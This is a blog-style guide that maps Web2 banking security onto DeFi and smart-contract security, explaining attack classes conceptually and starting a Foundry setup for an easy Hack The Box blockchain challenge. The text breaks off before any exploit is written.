+++
title = "From Web2 to Web3 Security: A Practical Transition Guide"
date = 2025-12-18
description = "A practical guide for security professionals transitioning from Web2 to Web3"
[extra]
featured_image = "featured.png"
authors = [{name = "lilthawg29", url = "#"}]
venue = {name = "Security Research", date = "2025-12-18"}
buttons = []
toc = true
[taxonomies]
tags = ["blockchain", "security", "web3", "guide"]
+++


**Note:** This article is not an introductory or elementary piece outlining basic blockchain theories. Therefore, if you encounter any concepts or terminology you don't understand while reading, feel free to ask an AI for further explanation.


In this article, I share my personal perspective as someone transitioning from Web2 security to Web3 security. When learning new knowledge from Web3/Blockchain, I use **Analogical Reasoning** to easily visualize and associate it with Web2 concepts, avoiding the time-consuming process of learning dry Web3 theories from scratch. After that, I "zoom-in" to focus on technical details, setting up an audit environment, and analyzing source code.

## 1. Mindset Shift - System Design

To make it easier to visualize and absorb, I will perform a thought mapping comparison between a **Digital Banking App** and **DeFi (Decentralized Finance)**.

Why mention DeFi instead of Blockchain in general? Because Blockchain is a very broad technology (applicable to Logistics, Healthcare, etc.), but **DeFi** is the hottest sector—where Coins and Tokens are traded, borrowed, and liquidated—carrying the full characteristics of a monetary financial system.

Both are "lucrative targets" for criminals: **Where money flows, fraud, money laundering, and theft follow.** We encounter numerous hacking, scamming, and money laundering cases on both platforms, and both must face complex money flow tracing processes.



Whether it's a Banking App or DeFi, we see similar attack patterns aimed at financial gain. Therefore, comparing DeFi with Digital Banking is the most equivalent and accurate comparison in terms of asset risk.

However, the security architecture to protect this flow of money is completely opposite. Below is a detailed mapping table of the transition from Web2 (Banking) to Web3 (DeFi):

### 1.1 Infrastructure Layer

In Web2, infrastructure security is about **Access Control**. In Web3, infrastructure is public, so security shifts to economic and mathematical mechanisms (**Game Theory & Cryptography**).

| **Component** | **Web2 (Banking App)** | **Web3 (DeFi / Protocol)** | **Security Perspective Mapping** |
| :--- | :--- | :--- | :--- |
| **Compute / Server** | **AWS/GCP/On-premise**<br><br>You own the server.<br><br>Hacked → shutdown, isolate, restore. | **Nodes (Miners/Validators)**<br><br>You **do not** own the infrastructure.<br><br>Your code runs on strangers' computers. You cannot "turn off" Ethereum. | **Trust Model: Authority → Consensus**<br><br>Web2: Control server = Total control.<br><br>Web3: Must attack consensus (51%, long-range, eclipse) to rewrite transaction history. |
| **Database** | **Private SQL/NoSQL**<br><br>Hidden behind a Firewall. Only internal apps can access balances/states. | **Public Ledger & Mempool**<br><br>Anyone can read it, even pending transactions. | **Confidentiality -> Front-Running Risk**<br><br>Since data is public even before processing, hackers (MEV Bots) can "see" your large buy order in the Mempool and insert their order before yours to profit from the price difference. |
| **Anti-DDoS** | **WAF / Rate Limiting**<br><br>Block spam IPs. Attack cost is cheap, but defense cost is also low. | **No firewall**, only blockspace & gas fees.<br><br>Every write command costs money. DDoS attack = Burning tons of money. | **Technical -> Economic**<br><br>You cannot block the attacker's IP. The only way to stop spam is high Gas fees. At that point, the attacker suffers damage, but **real users also cannot transact** because fees are too high or the network is congested. |
| **Gateway** | **API Gateway / Load Balancer**<br><br>You control endpoints, SSL certificates. | **RPC Providers (Infura/Alchemy)**<br><br>Rely on 3rd parties to "talk" to the Blockchain. | **Trusted Endpoint -> Man-in-the-Middle**<br><br>If RPC is hacked or malicious, the DApp will show incorrect balances or trick users into signing malicious transactions. |
| **Topology** | **VPC / Private Subnet**<br><br>Internal routing, absolute trust. | **P2P Gossip Network**<br><br>Like VPC, communication between nodes. | **Isolation -> Eclipse Attacks**<br><br>Hackers can surround your node with malicious nodes, blinding information (Partitioning) to perform a Double Spend. |
| **Key Management** | **HSM / KMS (Server-side)**<br><br>Server holds keys to sign automated transfer orders. | **Non-custodial / MPC**<br><br>User holds keys. Node holds block signing keys. | **Centralized Custody → Irrevocable Access**<br><br>Lost Validator key = Penalty (Slashing).<br><br>Exposed Admin (Deployer) Key = Protocol permanently compromised. |
| **Monitoring** | **Datadog, Prometheus, SIEM**<br><br>Track server logs. | **On-chain Monitoring**<br><br>Mempool scanning, MEV monitoring, chain reorg monitoring. | **System Health -> Economic Health**<br><br>Don't monitor CPU/RAM, but monitor "Abnormal Money Flow" or "Flash Loan attack" occurring in the block. |

### 1.2 Application Layer



This is where **Smart Contracts** live, equivalent to Backend Code.

| **Component** | **Web2 (Banking App)** | **Web3 (DeFi / Protocol)** | **Security Perspective Mapping** |
| :--- | :--- | :--- | :--- |
| **Logic Code** | Backend API (Java, Go, Python). Can patch bugs (Hotfix) immediately. | Smart Contract (Solidity). **Immutable** after deployment. | **Patch Management**<br><br>Web2: Detect vuln -> Deploy patch in 1 hour.<br><br>Web3: Detect vuln -> **Too late**. You cannot fix code. You can only use complex techniques (Proxy Pattern) to upgrade, but this process is risky and slow. |
| **Permissions** | RBAC, Admin dashboard.<br><br>Admin can edit data. | onlyOwner, MultiSig, Governance.<br><br>Transactions are **irreversible**. | **Irreversibility:**<br><br>Web2: Wrong transfer? Call support, money can still be reversed.<br><br>Web3: Wrong transfer or hacked? Money lost forever. Code is Law. |
| **Internal API** | Private/Internal functions calling each other within the server. | Internal Calls / External Calls between Contracts. | **Re-entrancy**<br><br>Function hasn't finished but is called again -> unexpected state change.<br><br>→ Similar to Race Condition but real money is lost. |

### 1.3 Network & Data Layer

Where data moves and connects with the outside world.

| **Component** | **Web2 (Banking App)** | **Web3 (DeFi App)** | **Security Perspective Mapping** |
| :--- | :--- | :--- | :--- |
| **Data Feeds** | Call 3rd party API (e.g., Forex rate API) via HTTPS. Trust in SSL/TLS. | **Oracles** (Chainlink). Call real-world data into Blockchain. | **Data Integrity:**<br><br>Web2: If Forex API is hacked, banking app shows wrong price.<br><br>Web3: Wrong Oracle -> Smart Contract automatically liquidates/lends wrongly -> **real money lost**, cannot rollback.<br><br>→ Oracle = "dead point" of many DeFi protocols. |
| **Router/Switch** | Network Router, Load Balancer. Transmits packets in order (FIFO). No one can "peek" at packets to profit. | **Mempool + Validators** decide transaction order. | **MEV (Front-running / Sandwich / Back-running)**<br><br>Web2: Network Admin sees packets but cannot intervene due to laws.<br><br>Web3: Validator sees Pending transaction -> can **insert, change order, or attack** to profit.<br><br>→ Mempool is a **Dark Forest**: everyone sees what you intend to do before it actually happens. |
| **Inter-bank Conn** | SWIFT - secure messaging system between banks. Strict processes, audits, legalities. | **Cross-chain Bridges** - moving assets between chains. | **Bridge Security:**<br><br>Like a cash truck between 2 banks. If the truck is robbed (Bridge hacked), money never arrives.<br><br>Web2 trusts the SWIFT organization. Web3 trusts Bridge Code.<br><br>→ Bridge is the #1 target for hackers (total loss > $2B). |

### 1.4 User/Client Layer

| **Component** | **Web2 (Banking App)** | **Web3 (Wallet)** | **Security Perspective Mapping** |
| :--- | :--- | :--- | :--- |
| **Login** | Username + Password + OTP (2FA). Password can be reset if forgotten. | **Private Key / Seed Phrase**. | **Identity Management:**<br><br>Web2: Bank controls money for you.<br><br>Web3: You are the bank. Lost key = lost money. Example key = hacker takes everything.<br><br>→ There is no "Forgot password". |
| **Permissions** | OAuth2 (Grant app permission to read email, etc.). | **Approve / Token Allowance**. | **Excessive Privilege:**<br><br>Like granting an OAuth game permission to "Full Bank Account Access" instead of just "Read Balance". The Unlimited Approve error in Web3 is exactly this. |

### 1.5 Summary

```txt
+-----------------------------------------------------------------------+
|                   COMPARISON: SECURITY ARCHITECTURE                   |
+-----------------------------------------------------------------------+
|          🏦 WEB2 BANKING            |         🌐 WEB3 DEFI            |
+=====================================+=================================+
|  LAYER 4: USER & CLIENT             |  LAYER 4: USER & CLIENT         |
|  [ Interface: Mobile App/Web ]      |  [ Interface: DApp Website ]    |
|  🔑 Auth: User/Pass + OTP           |  🔑 Auth: Private Key (Wallet)  |
|  🛡️ Risk: Account Takeover          |  🛡️ Risk: Lost Key = Lost Fund  |
+-------------------------------------+---------------------------------+
|               ⬇️                    |               ⬇️                |
+-------------------------------------+---------------------------------+
|  LAYER 3: APP LOGIC                 |  LAYER 3: PROTOCOL LOGIC        |
|  [ Code: Backend API (Java/Go) ]    |  [ Code: SMART CONTRACTS ⚠️ ]   |
|  ⚙️ State: Mutable (Editable)       |  ⚙️ State: Immutable (Constant) |
|  👮 Control: Admin System           |  👮 Control: Code is Law        |
+-------------------------------------+---------------------------------+
|               ⬇️                    |               ⬇️                |
+-------------------------------------+---------------------------------+
|  LAYER 2: DATA & NETWORK            |  LAYER 2: DATA & NETWORK        |
|  [ Store: Private Database SQL ]    |  [ Store: Public Ledger ]       |
|  🔗 Conn: Internal API              |  🔗 Conn: Oracles / Bridges     |
|  🔒 Confid: High (Encrypted)        |  👀 Confid: Zero (Transparent)  |
+-------------------------------------+---------------------------------+
|               ⬇️                    |               ⬇️                |
+-------------------------------------+---------------------------------+
|  LAYER 1: INFRASTRUCTURE            |  LAYER 1: INFRASTRUCTURE        |
|  [ Hardware: Private Servers ]      |  [ Hardware: Public Nodes ]     |
|  🛡️ Def: Firewall / WAF             |  🛡️ Def: Consensus / Gas Fees   |
|  ☁️ Trust: Cloud Provider (AWS)     |  🧮 Trust: Math & Cryptography  |
+-------------------------------------+---------------------------------+
```

From the architecture comparison table above, we draw an important conclusion about the shift in security strategy:

- In the traditional Web2 model, we apply a **Defense in Depth** strategy. The Core App is wrapped in multiple layers of protection: from network firewalls, OS permissions, to middleware layers controlling access. If one layer is breached, others act to detect and prevent.
- Conversely, in the Web3 (DeFi) model, this architecture becomes **Flat**. Infrastructure and network layers are Public. The Smart Contract becomes the first and simultaneous point of contact (The single point of failure). It is also the most accessible component—aside from LAYER 4: USER & CLIENT (where if you expose your key/passphrase, your funds are definitely gone).

At this point, the entire security burden falls on the **Application Layer (Logic)**.

- No "Rollback" mechanism to correct mistakes.
- No "Rate Limit" to block exploitation.
- **Code Correctness** is the final barrier protecting assets.

To fully understand the severity of this execution environment, theory is not enough. In the next section, we will approach this from an **Attacker Mindset**: Analyzing code, finding logic vulnerabilities, and executing exploits in a Foundry simulation environment.

## 2. Introduction to Smart Contract Audit for White-Box Pentesters/ CTFer

From the architectural analysis above, we need to look at the reality of attack vectors in Web3:

- **Layer 4 (User/Client):** This is the weakest point in terms of human factors. If a user exposes their **Private Key** or **Seed Phrase** (via Phishing, Malware), asset loss is certain and technically irreversible. However, this is a risk at the **Individual scope**.
- **Layer 1 & 2 (Infrastructure):** Attacks on infrastructure (like 51% Attack) require massive economic costs and extremely high skill levels, so they occur less frequently.

**Lying between these two extremes is Layer 3 (Smart Contract Application).**

Why do large hacks (hundreds of millions of USD) often focus on this layer? Because Smart Contracts have the **highest Accessibility for technical hackers**:

- It is completely public (Open Source/Bytecode).
- It allows anyone to interact directly without identity verification (Permissionless).
- It holds massive amounts of pooled funds.

Unlike Web2 where the Backend is hidden, a Smart Contract is like an API with its doors wide open to the world. A single slip in logic allows a hacker to exploit it directly without bypassing infrastructure security layers.

### 2.1 Why do Blockchain CTFs focus on Smart Contracts?

Precisely because Smart Contracts are the most accessible weak point causing the greatest damage (as analyzed above), Blockchain CTF (Capture The Flag) competitions are also designed around this focus.

Unlike traditional CTF (Web/Pwn/Crypto) where the goal is often to gain server control (RCE) or read a secret file (flag.txt), **Blockchain CTFs are Financial Incident Simulations**. In blockchain challenges, the "Flag" usually involves changing the state or condition of a contract rather than reading file content. Challenges typically require you to:

- **Drain the Vault:** Empty all money from the Contract to your wallet.
- **Break the Logic:** Falsify accounting state (e.g., fake balance).
- **Denial of Service:** Freeze the Contract permanently.

To solve these problems, Security Engineers must dive deep into 3 specific layers of knowledge, completely different from Web2:

#### A. Logic & Finance Layer (DeFi Mechanics)

This is a specialty of Blockchain CTF. You don't just need to understand Code, you need to understand **Money**.

- **Flash Loans:** Borrow millions of USD without collateral in 1 transaction to manipulate prices.
- **Oracle Manipulation:** Deceive the Contract about asset values.
- **Arbitrage:** Exploit price differences to drain the system.
- Reality: Major hacks like Cream Finance or Beanstalk used these techniques.

#### B. Language & EVM Characteristics Layer (Solidity/Vyper Quirks)

Exploiting "weird" behaviors of the programming language.

- **Re-entrancy:** Recursive attacks.
- **Integer Overflow/Underflow:** (Common in older versions).
- **Visibility & Inheritance:** Public functions called unintentionally or conflicting contract inheritance.

#### C. Low-level & Storage Layer

For Hardcore CTF challenges, requiring understanding of how the EVM stores data.

- **Storage Collision:** Overwriting data in memory slots of a Proxy Contract.
- **Delegatecall:** Exploiting execution context to take over ownership.
- **Opcode Manipulation:** Gas optimization or bypassing code size checks.

**A common misconception among CTF players** is that to play Blockchain Category CTFs, you must have a strong Cryptography background, or have played Crypto CTF before... Many Web2 engineers hesitate to switch to this field because they think they will face complex mathematical matrices.

But in reality, Smart Contract Auditing is more like **White-box Pentest (Source Code Review)** than Cryptanalysis. 

It's more like Web than Crypto ¯\\( ͡° ͜ʖ ͡°)/¯. It's named Web3, not Crypto3, after all.

Of course, Cryptography is central—the heart of blockchain. When we mention blockchain, we think of crypto. However, the Crypto that technical folks and hackers encounter is "Applied Crypto", not "Theoretical Crypto".

In pure Crypto CTF challenges, you have to factorize large integers, attack RSA, find weaknesses in AES modes. But in Smart Contracts:

- We treat Cryptography algorithms (SHA256, Keccak256, ECDSA) as **Black boxes** that are proven and secure.
- **Task:** We don't look for bugs in the ECDSA algorithm, but bugs in **how programmers use it**. Example: Dev uses `ecrecover` to verify signatures but forgets to check `nonce` -> Leads to **Signature Replay Attack**. This is a Logic error, not a Mathematical error.
- We don't try to break encryption algorithms (they lie in Layer 1 - Protocol).
- We focus on finding **Business Logic Errors**: Wrong permissions, calculation errors, and loose data processing workflows.
- Additionally, Web3 Auditors must care about **Storage Slot, Memory, Stack, Gas** (the Low-level part you mentioned). But this leans more towards **Computer Architecture** than Cryptography.

So if you've played Web CTF or any field including RE, PWN, Crypto and have good code review skills, you are totally capable of transitioning to this direction. Learn a smart contract language like Solidity to understand the code, and you can make the switch.

### 2.2 Foundry - Basic Tool for Smart Contract Auditors

Here, I'll use a Blockchain CTF challenge, level Very Easy from Hack The Box as an example. I intended to find a challenge related to finance/crypto to fit the theory above, but a game is fine too—you can earn money/coins from games xD.



Just like playing crypto or any CTF challenge, I always want to set up a local environment because that's how I master the challenge most deeply. Since AI arrived, learning new skills has become incredibly easy; it guides you from A-Z on setup, and all suggestions point to Foundry. When installing Foundry, it downloads 4 binaries: forge, cast, anvil, chisel. So what is Foundry and what do its accompanying tools do?



**Foundry** is an **Ethereum smart contract development toolkit**, similar to Hardhat or Truffle (I haven't tried these two, lmao, focusing on one main tool is enough), written in **Rust** and extremely fast. It truly is a Toolkit for web3 auditors, CTF players, researchers, etc.
It is developed by **Paradigm** (a large Web3 investment fund) to serve researchers and hackers (CTF, audit, MEV...).

You can use Foundry to:

- Write, **compile**, **test**, **deploy**, **interact**, and **debug** smart contracts.
- Automate CTF exploits.
- Fork mainnet for realistic testing.
- Fuzzing, trace, and simulate transactions.

When you run `foundryup`, it installs 4 binaries: `forge`, `cast`, `anvil`, `chisel`. The table below explains the function of each binary in the Foundry Suite:

| Binary | Name | Core Function | Role in Security & CTF |
| :--- | :--- | :--- | :--- |
| **forge** | **Testing Framework** | Project management, compile, run tests, and deploy Smart Contracts. | <ul><li>Write and run **Exploit Scripts** (PoC) in Solidity.</li><li>Run **Fuzz Testing** to find edge cases causing errors.</li><li>Debug with `console.log` and Stack Trace.</li><li>Crucial for compiling smart contracts; in CTF, it's for building exploits.</li></ul> |
| **cast** | **Swiss Army Knife** | Command Line Interface (CLI) to interact directly with Ethereum RPC (send transactions, read data). | <ul><li>**Decode Calldata:** Reverse hex `0x...` strings into function names.</li><li>**Convert:** Fast conversion between Wei/Ether, Hex/Decimal.</li><li>Call functions directly on mainnet/testnet to check state quickly.</li><li>Like MetaMask extension but CLI version, swap coins, call functions... Main tool in CTF.</li></ul> |
| **anvil** | **Local Node** | Create a simulated Blockchain network (Local Testnet) on your personal computer. | <ul><li>Set up local environment to hack without spending real Gas.</li><li>**Mainnet Forking**: Copy entire Ethereum Mainnet state to your machine to test exploits on real projects (like Uniswap, Aave).</li><li>Used once to set up environment at the start, like `activate venv` in python3.</li></ul> |
| **chisel** | **Solidity REPL** | Interactive programming environment (Shell). Type Solidity code and run immediately. | <ul><li>Quickly check results of bitwise operations, keccak256 hash, or `abi.encode` without creating a file or compiling the whole project.</li><li>Like opening `python3` terminal, not used very often.</li></ul> |

Download the challenge and unzip it; there will be 2 Solidity files: `Setup.sol` and `Creature.sol`.



First, we `forge init` to initialize the repo (like `mod init` in Golang xD). However, the challenge already has 2 `.sol` files (not empty) so we must use `--force`.



The default `Counter` files generated can be ignored. Delete them and move the 2 challenge files into the `src` folder:

```bash
find . -name "Counter.*" -delete
mv Creature.sol src/Creature.sol
mv Setup.sol src/Setup.sol
```



If you don't delete them, `forge build` will throw an error. Delete them all and you'll see compilation succeed.



After successful compilation, we set up a local testnet using `anvil`.

